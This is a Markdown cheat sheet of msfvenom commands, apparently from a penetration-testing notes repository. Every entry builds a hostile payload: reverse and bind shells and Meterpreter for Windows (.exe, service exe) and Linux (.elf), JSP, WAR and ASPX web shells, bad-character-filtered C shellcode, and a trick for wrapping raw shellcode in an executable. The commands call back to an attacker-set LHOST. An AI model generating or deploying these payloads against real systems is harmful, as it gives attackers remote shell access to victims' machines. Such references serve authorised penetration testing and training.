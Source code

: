 # MSFVENOM
## Windows Binary (.exe) executable
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

##### Output in Hex, C Style, Exclude bad chars, Exitfunction thread
```bash
msfvenom -p windows/shell_bind_tcp LHOST=$LHOST LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

### 64 Bit (x64)

#### service
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f service-exe -o service.exe
```

#### Reverse Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

#### Bind Shell
```bash
msfvenom -p windows/x64/shell_bind_tcp LPORT=443 -f exe -o bind_shell.exe
```

#### Meterpreter
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=443 -f exe -o shell.exe
```

## Linux Binary (.elf)
### 32 Bit (x86)
#### Reverse Shell
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x86/shell/bind_tcp  LHOST=$LHOST -f elf > bind_shell.elf
```

#### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f elf > rev_shell.elf
```

#### Bind Shell
```bash
msfvenom -p linux/x64/shell/bind_tcp LHOST=$LHOST -f elf > rev_shell.elf
```

## Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

### As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

## Active Sever Pages Extended (.aspx)
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=443 -f aspx -o rev_shell.aspx
```

## tricks
### make executable binary with input shellcode
```bash
cat payload.bin | msfvenom -p - -f exe -a x64 --platform win -o output.exe
```
